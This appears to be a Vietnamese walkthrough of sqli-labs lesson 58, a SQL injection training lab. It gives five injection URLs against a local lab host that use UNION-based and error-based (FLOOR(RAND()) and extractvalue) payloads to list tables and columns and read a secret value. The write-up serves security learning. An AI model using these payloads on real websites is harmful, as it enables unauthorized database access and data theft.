






# Những việc làm được với lesson-58
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-58




Bài này yêu cầu giống mấy bài trước ta chỉ việc đi tìm cấu trúc của nó Và kết hợp cùng với union luôn. Và ta có được 5 lần thử  

- Lần 1: 
```
192.168.80.225/sqli-labs/Less-58/?id=0') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```



- Lần 2
```
192.168.80.225/sqli-labs/Less-58/?id=0' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```



Ở đây ta thấy lạ rằng đây ko phải tên của bảng trong `CHALLENGES`. Mà ở lần đầu ta nhìn thấy error chứng tỏ ta sẽ cần sử dụng error base. Ta đã có được tên DB rồi thì ta cần show tên table. dùng error-base để show tên table 

- Lần 3 : Sử dụng error base như lần làm với bài 5 để tìm ra tên table.
```
192.168.80.225/sqli-labs/Less-58/?id=1'and (SELECT 0 FROM (SELECT count(*), CONCAT((SELECT table_name from information_schema.tables where table_schema='challenges' ), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```



- Lần 4: Tìm tên các trường 
```
192.168.80.225/sqli-labs/Less-58/?id=1' || extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema = "challenges" and table_name="ZYGPG2I20D")))--+
```

 

lần 5: Ta đọc dữ liệu từ bảng này 
```
192.168.80.225/sqli-labs/Less-58/?id=1' || extractvalue(1,concat(0x7e,(select group_concat(secret_NPNK) from ZYGPG2I20D )))--+
```

 
